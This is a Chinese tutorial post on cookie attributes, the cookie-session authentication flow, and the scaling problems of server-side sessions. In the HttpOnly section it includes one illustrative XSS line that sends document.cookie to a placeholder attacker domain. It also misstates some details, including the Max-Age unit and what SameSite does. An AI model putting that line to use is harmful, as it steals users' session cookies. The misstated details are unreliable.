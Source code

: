 # cookie,session 认证

~~如果对  cookie 已经很熟悉了，可以跳过，这篇主要是为后面的做铺垫~~
## what is cookie
网上已经说烂了，还不知道可以看MDN https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies

## 概要
 - cookie 组成
 - cookie 产生整个交互过程
 - cookie seesion 存在的问题
 - demo
 

## cookie 组成

虽然cookie 属性说烂了，列还是得列一下，主要关注 **Domain , HttpOnly , SameSite**
![cooki_names.png-45.1kB][1]

- **Name, Value**
 Name 和 Value 是必须的 Session 里的 SessionId 就是 Name 设置的

- **Domain** 

    默认是当前域名 假设 访问的是`a.hucheng.com`,那么前端cookie的domain只能设置`a.hucheng.com`和其父域名`hucheng.com`，如果设置成同级域名如`b.hucheng.com`或者子域名`a.aa.hucheng.com` 那么cookie设置将无效。
    
    当 cookie 设置 父域名hucheng.com的时候 ,2个子域名(`a.hucheng.com,b.hucheng.com`)就可以获取到cookie的信息,通过cookie来传递信息
    
    ```
     在 a.hucheng.com 下面 login 方法执行
      router.post('/login', async (req, res, next) => {
      res.cookie("user_token", req.body.userName,{domain:"hucheng.com"});
      res.send({code:1})
    });
    a.hucheng.com 控制台执行
    window.open("b.hucheng.com");
    可以发现 b.hucheng.com 域名下 cookie 里有 user_token 这个值
    
    ```
划重点 **Domain 的这种属性 可以用来 子域名之间的通信**，大部分二级域名之间跳转都是使用这个属性
- **Path**   
 设置路径cookie 生效路径  
- **Max-Age // 过期时间** 
  默认是毫秒,超过这个时间，浏览器自动删除，其实还有个Expires,Expires 是 Http1.0的，基本废弃了
- **Size**    // 只读大小
- **HttpOnly**  
  httpOnly,设置了这个就不能通过js 里的 document.cookie 获取了，默认是false,这个特性，也用的很多，一般我们敏感的信息都设成tre，比方 seesionId，token，非敏感设置成 false，比方记录来源，
```javascript
 httpOnly ==false;
 const cookie = document.cookie // "user_token=xxx"
 httpOnly ==true;
 const cookie = document.cookie // ""
 // 设置成 true 的时候 就可以防止部分Xss攻击
  new Image().src == "fuckxss.com?a="+document.cookie
```
- **SameSite**
  这个是 Chrome 提出来的 跨域共享 cookie

- **Secure**   
  只有在 https里使用,传输过程会加密


## cookie 产生整个交互过程

![cooki_flow.png-32.9kB][2]

1. 使用浏览器访问服务端页面；
2. 服务端收到该客户端第一次请求后，会创建一个 session ，生产一个唯一 sessionId ；
3. 同时在响应请求中设置 cookie ，属性名为jessionid；
4. 客户端收到后会保存 jessionid ，再次请求时，会在 header 中设置，服务端可从请求头中获取；
5. 服务端验证获取的 sessionId 是否存在，即可验证是否是同一用户；

当浏览器禁用 cookie 后，基于 cookie 的 session 将不能正常工作，每次都将创建一个新的 session ，可通过url重写传递 sessionid。

## cookie seesion 存在的问题
在网民不多，喷子还很少的年代，cookie seesion 是够用的，但是负载大了以后，比方微博这种，一个系统保存上亿的 seessionId，也是够够的，那是不是可以搞个负载均衡 ，把 sessionId 都存到 Redis 缓存，所有的机器都来访问这个地方的数据， 这样一来，就不用复制了， 但是增加了单点失败的可能性， 要是那个负责 session 的机器挂了，  所有人都得重新登录一遍， 估计得被人骂死。

![image.png-62.9kB][3]


怎么办？ 有没有啥办法，我不存这些用户 sessionId,让浏览器自己管理起来么，**JWT 小老弟**，要出场了,下回讲JWT

## Demo
[放到github上了,有cookie 每个属性操作例子](https://github.com/hucheng91/frontend-note/tree/master/oauth/cookie)
Node.js写的，有清晰的注释，没写过Node.js的前端er也能看明白的，如果你平常对 cookie 的的理解都来源于文章，没实操过，建议把 Demo 自己来一遍
## 参考资料
[cookie MDN介绍](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies)
[JAVA 版 单点登录与权限管理本质：session和cookie介绍](https://mp.weixin.qq.com/s?__biz=MzA5Njc2OTg4NQ==&mid=2247483703&idx=1&sn=fd9984e2e7c6aee7429f261697dfacbd&chksm=90aa4305a7ddca13fcc28fd6266b0e19ad1961a79387b89f213f5b6f93beef5ad06a2cc8916e&scene=21#wechat_redirect)
[干掉状态：从session到token](https://mp.weixin.qq.com/s?src=11&timestamp=1543738567&ver=1279&signature=pXd5T17vZ04cw*hTuAivx5485tGsOorFtTiVYYrBDWKkaeYep1zWFRTHO0qn5N3bVZUnr71XCkam4be2kIKbGO3IxhxDYgnEZ7eJ*AYpdQmIi98AeyK-mhoMlmQeYDvm&new=1)




  [1]: http://static.zybuluo.com/hucheng91/7jinfnjao8k2y6alnmja5t7l/cooki_names.png
  [2]: http://static.zybuluo.com/hucheng91/nd91yozvmocnvwi4xyr6lkyg/cooki_flow.png
  [3]: http://static.zybuluo.com/hucheng91/w3yksf74zpya2i2pfsw7ljlx/image.png